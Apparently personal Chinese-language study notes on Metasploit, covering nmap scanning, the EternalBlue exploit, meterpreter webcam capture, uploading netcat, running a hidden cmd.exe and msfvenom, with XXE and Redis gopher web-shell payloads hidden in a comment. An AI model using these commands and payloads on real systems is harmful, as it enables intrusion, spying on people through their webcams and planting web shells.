 <!---
```diff
+ green color text
- red color text
```
-->

+ 進入metasploit
  - msfdb init : 初始化數據庫 (若沒執行這行，連接數據庫會有問題)
  - msfconsole : 啟動
  - workspace : 當前工作區
  - db_status :　是否成功連接到數據庫
  - workspace -a meow :　另創一個數據庫meow
  - ? : 通過?查看當前工作區可以使用的指令
  
![image](https://user-images.githubusercontent.com/96654161/170452994-0fe2ddb7-384f-4459-ac3f-a124c83b3922.png)

+ 信息蒐集 -> 內網主機發現
  - db_nmap : nmap掃描
    - -PA : TCP ACK PING掃描
    - -PS : TCP SYN PING掃描
    - -PR : ARP掃描nmap對目標進行arp ping掃描的過程，尤其在內網的情況下。因為防火牆不會禁止ARP請求
    - hosts : 列出當前工作區所有主機
    
  - 1.ifconfig 查看當前哪些主機存活
  - 2.db_nmap -PR IP/24
  
![image](https://user-images.githubusercontent.com/96654161/170454550-ace64ee5-bc5b-441c-9a1f-336568b2abd2.png)

     -T[0-5] : 莫認為T3、T4表示最大TCP掃描延遲為10ms
     sS : TCP SYN掃描
     sA : TCP ACK掃描
     sY : TCP SYN掃描
     A : 打開操作系統探測和版本探測
 
  - db_nmap -sS -A -T4 192.168.xx.x
![image](https://user-images.githubusercontent.com/96654161/170462660-3b86cb80-6cd1-4b8b-845f-fccd63797fb7.png)

  - db_nmap --script=vuln IP
    - script=vuln : 檢查是否具有常見漏洞
![image](https://user-images.githubusercontent.com/96654161/170464782-26acc2ae-f016-4e50-a663-93dcd80ac177.png)
>這裡找到ms17_010

+ auxiliary 模塊
  - search ms17_010
 
![image](https://user-images.githubusercontent.com/96654161/170476395-67b42a48-a313-4595-aaac-7a59570dcdbd.png)
>這裡看到第三項，描述的是for win8，但在前面掃描OS是win7所以不適用

  - info auxiliary/scanner/smb/smb_ms17_010

![image](https://user-images.githubusercontent.com/96654161/170468777-31bd8a4c-e86d-4584-a37c-e2f938d267c9.png)

  - use auxiliary/scanner/smb/smb_ms17_010 #要使用某模塊都用 use modules
  - options 查看設置 ->required 如果是yes就必須要配置
![image](https://user-images.githubusercontent.com/96654161/170471161-04096171-0096-4c96-92e6-fc5cc911859c.png)

  - set RHOSTS 掃描主機IP
  - run / exploit 執行
![image](https://user-images.githubusercontent.com/96654161/170472589-93bc1135-7785-47a5-b28e-c4e3d361b9fe.png)

+ use exploit/windows/smb/ms17_010_eternalblue
+ options
+ set rhosts ip
+ show targets
+ run

![image](https://user-images.githubusercontent.com/96654161/170538076-6daa23d6-324e-4a85-af13-0ba5bc71738e.png)
![image](https://user-images.githubusercontent.com/96654161/170542273-10a4a4fb-3675-4f8a-a251-9986197e8170.png)
![image](https://user-images.githubusercontent.com/96654161/170542834-39ae3629-4501-4b9b-8d89-03b2771d5806.png)

>sessions[-l] : 列出當前所有session
>sessions[-i]id:進入某個session
>background : 把當前shell放到後台去執行，然後返回到MSF中

![image](https://user-images.githubusercontent.com/96654161/170543869-79dae501-522f-4151-80f5-8cb957994134.png)

```diff
show exploits -> 查看所有可用的滲透攻擊程序代碼 
show auxiliary -> 查看所有可用的輔助攻擊工具
[show]options/advanced -> 查看該模塊可用選項
show payloads -> 查看該模塊適用的所有載荷代碼
show targets -> 查看該模塊適用的攻擊目標類型
search -> 根據關鍵字搜索某模塊
info -> 顯示某模塊的詳細信息
use -> 使用某滲透攻擊模塊
back -> 回退
set/unset -> 設置/禁用模塊中的某個參數
setg/unsetg -> 設置/禁用適用於所有模塊的全局參數
save -> 將當前設置值保存下來，以便下次啟動MSF終端時仍可使用
```
### 開啟攝像頭

+ sessions -u id : 將某個session轉為meterpreter
+ 由shell轉meterpreter 

![image](https://user-images.githubusercontent.com/96654161/170551298-5e7490c3-eedf-4547-8adb-2a0e2f713a98.png)

+ sessions -i id
+ ? (查看當前可以使用的命令)
![image](https://user-images.githubusercontent.com/96654161/170551366-390beaf3-9fec-4584-bd8d-3e76906cdc2b.png)
![image](https://user-images.githubusercontent.com/96654161/170551422-770a6fbc-db10-471f-940b-972ef34aadc1.png)
![image](https://user-images.githubusercontent.com/96654161/170551811-67a65e65-2925-4c1d-b39e-57b99f996055.png)
![image](https://user-images.githubusercontent.com/96654161/170551958-4c27c0c4-ab7a-4d03-a48f-c869a391b668.png)

+ webcam_list : 查看攝像頭 列出對方的攝像頭
+ webcam_snap : 通過攝像頭拍照 
+ webcam_stream : 通過攝像頭開啟視頻
![image](https://user-images.githubusercontent.com/96654161/170553668-bd7808e9-d768-4aa3-872c-83e8392e8c40.png)

+ upload : 上傳本地文件到目標機器
+ upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32

![image](https://user-images.githubusercontent.com/96654161/170554858-4d4c5e79-b402-43b8-b659-505b5fd1a45c.png)


+ execute -H -i -f cmd.exe
+ execute : 再目標機器執行文件，創建新process cmd.exe,-H不可見,-i交互

![image](https://user-images.githubusercontent.com/96654161/170554951-c24df2ab-ee80-46f1-9967-8fca0d3619d4.png)
>上傳後執行

### msfvenom

+ msfvenom是msfpayload和msfencode的組合，將這兩工具集成在一個框架實例中
+ 用來生成後門的軟件，在目標機上執行後門，在本地監聽上線

```diff
-p : --payload,指定特定的payload 如果被設置為 - 那麼從標準輸入流中讀取
-l : --list 列出所有可用的項目 其中值可以被設置為 payload,encoders,nops,all
-n : --nopsled 指定nop在payload中的數量
-f : --format 指定payload的輸出格式(--list formats : 列出所有可用的輸出格式)
-e : --encoder，指定使用的encoder
-a : --arch 指定目標系統架構
--platform : 指定目標系統平台
-s : --space 設置未經編碼的payload最大長度(--encoder-space:編碼後的payload的最大長度)
```


<!---
XXE 
<!DOCTYPE kaibro[
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     
 SSRF gopher     
 gopher://localhost:6379/_FLUSHALL%0d%0aSET%20kaibro%20"<%3F=system($_GET[1]);%3F>"%0d%0aCONFIG%20SET%20DIR%20/www/%0d%0aCONFIG%20SET%20DBFILENAME%20ggininder123.php%0d%0aSAVE%0d%0aQUIT

-->
